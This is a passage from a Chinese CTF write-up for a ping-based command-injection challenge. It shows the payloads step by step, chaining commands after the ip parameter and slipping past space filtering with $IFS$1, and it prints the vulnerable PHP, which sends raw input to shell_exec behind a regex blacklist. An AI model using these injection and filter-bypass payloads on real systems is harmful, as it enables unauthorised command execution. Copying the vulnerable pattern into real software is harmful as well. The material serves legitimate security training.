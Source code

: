 ![通配符](./通配符.png)

## 解题

```bash
/?ip=

用|或；执行命令
?ip=127.0.0.1;ls

```

```txt
/?ip=
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```

滤了空格和标点，flag等符号，不能直接cat flag

```bash
?ip=127.0.0.1;cat flag.php
```

```txt
/?ip= fxck your space!
```

过滤了空格，用`${IFS}$`代替

```bash
?ip=127.0.0.1;cat${IFS}flag.php 
```

```txt
fxck your symbol! 
```

也过滤了{}，用`$IFS$1`代替

```bash
?ip=127.0.0.1;cat$IFS$1flag.php
```

```txt
/?ip= fxck your flag!
```

不读flag，读index

```bash
?ip=127.0.0.1;cat$IFS$1index.php

/?ip=
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
```